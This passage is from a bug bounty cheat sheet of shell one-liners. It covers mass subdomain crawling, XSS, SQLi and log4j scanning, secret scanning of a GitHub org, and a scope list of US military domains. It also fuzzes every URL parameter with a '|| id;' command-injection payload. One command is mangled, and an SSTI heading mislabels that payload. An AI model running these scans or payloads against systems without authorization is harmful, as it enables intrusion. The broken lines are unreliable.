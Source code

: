 - [X8](https://github.com/Sh1Yo/x8)
- [xray](https://github.com/chaitin/xray)
- [XSStrike](https://github.com/s0md3v/XSStrike)
- [Page-fetch](https://github.com/detectify/page-fetch)
- [HEDnsExtractor](https://github.com/HuntDownProject/HEDnsExtractor) 

###  BBRF SCOPE DoD

```bash
bbrf inscope add '*.af.mil' '*.osd.mil' '*.marines.mil' '*.pentagon.mil' '*.disa.mil' '*.health.mil' '*.dau.mil' '*.dtra.mil' '*.ng.mil' '*.dds.mil' '*.uscg.mil' '*.army.mil' '*.dcma.mil' '*.dla.mil' '*.dtic.mil' '*.yellowribbon.mil' '*.socom.mil'
```
### Xray Oneliner
```bash
xargs -a urls.txt -I@ sh -c './xray webscan --plugins cmd-injection,sqldet,xss --url "@" --html-output vuln.html'

```

###  Katana crawling

```bash
subfinder -d hackerone.com -silent -all | httpx -silent | katana -d 5 -silent | grep -iE '\.js'| grep -iEv '(\.jsp|\.json)'
subfinder -d hackerone.com -silent -all | httpx -silent | katana -d 5 -silent -em js,jsp,json
```


###  Scan All domains using Knoxss
- [Explained command]
```bash
echo "dominio" | subfinder -silent | gau | grep "=" | uro | gf xss | awk '{ print "curl https://knoxss.me/api/v3 -d \"target="$1 "\" -H \"X-API-KEY: APIDOKNOXSS\""}' | sh 
```


###  Scan All github repo ORG
- [Explained command]
```bash
docker run --rm  mswell/masstrufflehog -o paypal

```

###  Scan log4j using BBRF and log4j-scan
- [Explained command](https://bit.ly/3IUivk9)
```bash
bbrf domains | httpx -silent | xargs -I@ sh -c 'python3 http://log4j-scan.py -u "@"'
```

###  SSTI in qsreplase add "{{7*7}}" (0xJin)

```bash
cat subdomains.txt | httpx -silent -status-code | gau --threads 200 | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt
ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080

```

